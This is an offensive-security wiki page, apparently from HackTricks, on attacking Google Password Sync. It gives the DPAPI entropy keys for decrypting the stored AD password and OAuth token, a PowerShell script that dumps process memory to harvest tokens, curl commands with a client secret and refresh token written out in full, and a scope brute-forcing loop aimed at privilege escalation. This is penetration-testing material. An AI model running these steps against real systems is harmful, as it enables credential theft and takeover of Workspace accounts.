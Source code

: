 # GPS - Google Password Sync

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

This is the binary and service that Google offers in order to **keep synchronized the passwords of the users between the AD** and Workspace. Every-time a user changes his password in the AD, it's set to Google.

It gets installed in `C:\Program Files\Google\Password Sync` where you can find the binary `PasswordSync.exe` to configure it and `password_sync_service.exe` (the service that will continue running).

### GPS - Configuration

To configure this binary (and service), it's needed to **give it access to a Super Admin principal in Workspace**:

- Login via **OAuth** with Google and then it'll **store a token in the registry (encrypted)**
  - Only available in Domain Controllers with GUI
- Giving some **Service Account credentials from GCP** (json file) with permissions to **manage the Workspace users**
  - Very bad idea as those credentials never expired and could be misused
  - Very bad idea give a SA access over workspace as the SA could get compromised in GCP and it'll possible to pivot to Workspace
  - Google require it for domain controlled without GUI
  - These creds are also stored in the registry

Regarding AD, it's possible to indicate it to use the current **applications context, anonymous or some specific credentials**. If the credentials option is selected, the **username** is stored inside a file in the **disk** and the **password** is **encrypted** and stored in the **registry**.

### GPS - Dumping password and token from disk

> [!TIP]
> Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GPS**, get information about the configuration and **even decrypt the password and token**.

In the file **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** it's possible to find part of the configuration like the **`baseDN`** of the AD configured and the **`username`** whose credentials are being used.

In the registry **`HKLM\Software\Google\Google Apps Password Sync`** it's possible to find the **encrypted refresh token** and the **encrypted password** for the AD user (if any). Moreover, if instead of an token, some **SA credentials** are used, it's also possible to find those encrypted in that registry address. The **values** inside this registry are only **accessible** by **Administrators**.

The encrypted **password** (if any) is inside the key **`ADPassword`** and is encrypted using **`CryptProtectData`** API. To decrypt it, you need to be the same user as the one that configured the password sync and use this **entropy** when using the **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

The encrypted token (if any) is inside the key **`AuthToken`** and is encrypted using **`CryptProtecData`** API. To decrypt it, you need to be the same user as the one that configured the password sync and use this **entropy** when using the **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Moreover, it's also encoded using base32hex with the dictionary **`0123456789abcdefghijklmnopqrstv`**.

The entropy values were found by using the tool . It was configured to monitor the calls to **`CryptUnprotectData`** and **`CryptProtectData`** and then the tool was used to launch and monitor `PasswordSync.exe` which will decrypt the configured password and auth token at the beginning and the tool will **show the values for the entropy used** in both cases:

<figure><img src="../../../images/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Note that it's also possible to see the **decrypted** values in the input or output of the calls to these APIs also (in case at some point Winpeas stop working).

In case the Password Sync was **configured with SA credentials**, it will also be stored in keys inside the registry **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Just like with GCPW, it's possible to dump the memory of the process of the `PasswordSync.exe` and the `password_sync_service.exe` processes and you will be able to find refresh and access tokens (if they have been generated already).\
I guess you could also find the AD configured credentials.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>

```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
    "ya29\.[a-zA-Z0-9_\.\-]{50,}",
    "1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
    New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
    Write-Output "Dumping process with PID: $processId"
    & $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
    $dumpFile = $_.FullName
    $baseName = $_.BaseName
    $asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
    $unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

    Write-Output "Extracting strings from $dumpFile"
    & $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
    & $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

    $outputFiles = @($asciiStringsFile, $unicodeStringsFile)

    foreach ($file in $outputFiles) {
        foreach ($regex in $tokenRegexes) {

            $matches = Select-String -Path $file -Pattern $regex -AllMatches

            $uniqueMatches = @{}

            foreach ($matchInfo in $matches) {
                foreach ($match in $matchInfo.Matches) {
                    $matchValue = $match.Value
                    if (-not $uniqueMatches.ContainsKey($matchValue)) {
                        $uniqueMatches[$matchValue] = @{
                            LineNumber = $matchInfo.LineNumber
                            LineText   = $matchInfo.Line.Trim()
                            FilePath   = $matchInfo.Path
                        }
                    }
                }
            }

            foreach ($matchValue in $uniqueMatches.Keys) {
                $info = $uniqueMatches[$matchValue]
                Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
            }
        }

        Write-Output ""
    }
}
```

</details>

### GPS - Generating access tokens from refresh tokens

Using the refresh token it's possible to generate access tokens using it and the client ID and client secret specified in the following command:

```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
     --data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
     https://www.googleapis.com/oauth2/v4/token
```

### GPS - Scopes

> [!NOTE]
> Note that even having a refresh token, it's not possible to request any scope for the access token as you can only requests the **scopes supported by the application where you are generating the access token**.
>
> Also, the refresh token is not valid in every application.

By default GPS won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
    echo -ne "Testing $scope           \r"
    if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
     --data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
     --data "scope=$scope" \
     https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
        echo ""
        echo $scope
        echo $scope >> /tmp/valid_scopes.txt
    fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```

</details>

And this is the output I got at the time of the writing:

```
https://www.googleapis.com/auth/admin.directory.user
```

Which is the same one you get if you don't indicate any scope.

> [!CAUTION]
> With this scope you could **modify the password of a existing user to escalate privileges**.

{{#include ../../../banners/hacktricks-training.md}}
